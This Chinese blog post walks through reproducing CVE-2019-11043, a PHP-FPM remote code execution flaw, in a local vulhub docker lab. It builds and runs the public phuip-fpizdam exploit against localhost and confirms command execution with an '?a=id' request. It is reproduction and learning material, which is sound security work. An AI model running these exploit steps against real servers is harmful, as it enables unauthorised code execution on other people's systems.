 ```yaml
---
title: CVE-2019-11043复现
tags: 漏洞复现
categories: 技术分享
abbrlink: 78f531e0
date: 2019-10-29 16:33:40
updated: 2019-10-29 16:33:40
---
```


## 漏洞描述

CVE-2019-11043 是一个远程代码执行漏洞，使用某些特定配置的 Nginx + PHP-FPM 的服务器存在漏洞，可允许攻击者远程执行代码。

在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

在使用一些有错误的Nginx配置的情况下，通过恶意构造的数据包，即可让PHP-FPM执行任意代码。

## 漏洞复现

这里直接使用p牛的docker环境进行复现

[PHP-FPM 远程代码执行漏洞（CVE-2019-11043）]( https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.zh-cn.md )

###### 安装docker

```
apt install docker docker-compose 
```

###### 启动docker

```
systemctl start docker
```

###### 搭建环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/php/CVE-2019-11043
docker-compose up -d
```

在启动环境前建议先设置镜像加速

在 /etc/docker/daemon.json 写入以下内容（如果不存在文件，请新建）

```
{"registry-mirrors":["https://registry.docker-cn.com"]}
```

以上是添加 docker 官方提供的中国镜像，也可以选择使用阿里云，中科大等镜像。添加镜像后需要重启docker

```
sudo systemctl daemon-reload
sudo systemctl restart docker
```

![](https://i.loli.net/2019/10/29/jR5z9rEof6Jvsgh.png)

看到上面的界面代表环境启动成功，默认页面在http://127.0.0.1:8080/index.php

![](https://i.loli.net/2019/10/29/YTiLtIS8RGwcuzP.png)

不想搭建的可使用我搭建的在线环境

 http://45.147.200.196:8080/index.php 

###### 漏洞利用

安装golang，git代码并编译

```
apt install golang
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get -v
go build
```

![](https://i.loli.net/2019/10/29/q1FviSD6Jn2mLfj.png)

运行

```
go run . "http://127.0.0.1:8080/index.php"
```

![](https://i.loli.net/2019/10/29/TFlHUvW5hXAfCrB.png)

验证

![](https://i.loli.net/2019/10/29/DsackPLWy9COMoE.png)

因为php-fpm会启动多个子进程，在访问`/index.php?a=id`时需要多访问几次，以访问到被污染的进程 

复现完后建议删除或停止容器

```
docker ps //查看正在运行容器 
docker stop containerId //containerId是容器的ID 
docker ps -a //查看所有容器 
docker ps -a -q //查看所有容器ID 
docker stop $(docker ps -a -q) //停止所有容器 
docker rm $(docker ps -a -q) //删除所有容器
```

